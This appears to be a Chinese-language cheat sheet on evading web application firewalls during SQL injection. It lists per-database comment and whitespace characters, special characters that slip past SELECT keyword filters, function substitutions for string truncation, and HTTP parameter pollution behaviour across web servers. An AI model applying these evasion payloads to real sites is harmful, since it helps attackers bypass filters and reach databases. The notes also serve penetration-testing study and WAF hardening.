 - 空格：用括号括起来 **，括号可以起连接作用**

    - |          | **MySQL**                                          | **Oracle**            | **MSSQL**        |
        | -------- | -------------------------------------------------- | --------------------- | ---------------- |
        | 注释符   | /**/、#、/*!*/、/*!50000xx*/、--、-- -       、--+ | --、/**/ --%0a-       | --、/**/、--%0a- |
        | 空白字符 | %09%0A%0B%0C%0D%20    ^                            | %00%09%0A%0B%0C%0D%20 | %00-%20          |

    - `select(database())  where(table_schema)like(database())) `只能扩数据，不能扩关键字

- **避免关键字检测**：

    - 检测SELECT，
        - SQL查询语句select后面可以接一些特殊字符，这些字符与select相结合可以达到绕过waf目的，除了select 语句之外     union\from等关键字前后也可以连接一些特殊字符，这些关键字前后就可以作为fuzz的点。
        - `+ - @ !  ~   比如 select@user from table`
        - `'   "  比如select'user' from table    select"user" form table`
        - `{   select{x'user'},.7from{x 'mysql'.'user'}`

    - 可结合注释符--、/*、空白字符等。

- 等价替换：waf会对一些常见的攻击语句进行拦截，我们可以换个语句以实现同样的功能。

    - 函数替换：

        - 截取字符串是SQL注入利用技术里面的常用功能，通常使用mid(string,1,1)

        - 使用填充函数替代截断函数

             ```sql
             substr(user() from 1 for 1)
             replace(LPAD(user(),2,1),LPAD(user(),2-1,1),"")  Lpad填充函数，
             	LPAD(str,len,padstr)  (要查询的字段，填充后字符长度，用来填充的字段)，lpad是在左边填充，rpad是在右边填充，可以用作截断字符
             	REPLACE(String,from_str,to_str) 即：将String中所有出现的from_str替换为to_str。
             LPAD(REVERSE(TRIM( lpad(user(),1,SPACE(1)) )),1,SPACE(1);
             
             ```

        - `ascii(c)、ord(c) <=> conv(hex(c),16,10)`

        - `case when  then 1 else 0 end 代替if `

- 基本的技巧

    - 参数污染(HPP):

        - https://shuaizhupeiqi.github.io/2018/10/10/sql%E6%B3%A8%E5%85%A5%E4%B9%8B%E5%8F%82%E6%95%B0%E6%B1%A1%E6%9F%93%E7%BB%95waf/

        - ```
            Web服务器               参数获取函数                       获取到的参数
            
            PHP/Apache           $_GET(“par”)                       Last
            JSP/Tomcat           Request.getParameter(“par”)       First
            Perl(CGI)/Apache       Param(“par”)                       First
            Python/Apache       getvalue(“par”)                   All (List)
            ASP/IIS               Request.QueryString(“par”)       All (comma-delimited string)
            ```
